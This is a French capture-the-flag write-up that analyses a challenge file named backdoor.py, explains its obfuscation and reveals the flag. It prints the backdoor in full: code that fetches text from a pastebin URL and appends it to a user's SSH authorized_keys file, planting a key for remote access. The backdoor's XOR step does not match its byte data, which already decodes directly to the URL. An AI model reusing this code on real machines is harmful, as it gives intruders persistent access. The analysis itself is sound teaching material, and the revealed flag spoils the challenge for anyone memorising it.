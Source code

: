 
![bibliotheque_5](../../../../attachements/bibliotheque_5.png)

![backdoor](../../../../attachements/backdoor.py)

## Résolution

On a un script qui à été volontairement compliqué pour rien. 

```python
import requests as __import_0__  
import base64 as __import_1__  
  
def __function_0__():  
    __variable_0__ = bytearray([104, 116, 116, 112, 115, 58, 47, 47, 112, 97, 115, 116, 101, 98, 105, 110, 46, 99, 111, 109, 47, 114, 97, 119, 47, 53, 97, 72, 106, 49, 57, 107, 101])  
    __variable_1__ = 10  
    for __variable_2__ in range(len(__variable_0__)):  
        __variable_0__[__variable_2__] ^= __variable_1__  
    __variable_3__ = __variable_0__.decode('ascii')  
    __variable_4__ = __import_0__.get(__variable_3__)  
    __variable_4__.raise_for_status()  
    __variable_5__ = __variable_4__.text  
    __variable_6__ = "/home/tchia/.ssh/authorized_keys"  
    with open(__variable_6__, "a") as __variable_7__:  
        __variable_7__.write(__variable_5__ + "\n")  
  
if __name__ == "__main__":  
    __function_0__()
```

Ce qu’on comprend : 
* il y a un tableau de bytes avec des données
* le script fait du xor sur ces données
* il fait une requête sur le résultat décodé des bytes 
* met ce résultat dans un fichier sur le système

On va donc reconstruire ces données et fait l’appel à l’url en question : 

```python
import requests as requests

# tableau de bytes
data = bytearray([104, 116, 116, 112, 115, 58, 47, 47, 112, 97, 115, 116, 101, 98, 105, 110, 46, 99, 111, 109, 47, 114, 97, 119,  47, 53, 97, 72, 106, 49, 57, 107, 101])
# on converti en ascii
ascii = data.decode('ascii')  
# on fait une requête sur l'url trouvé et on affiche le résultat
print(requests.get(ascii).text)  
```


>[!question]- Spoiler du flag
> OPENNC{Br4v0_Vous_4vez_Termin3}

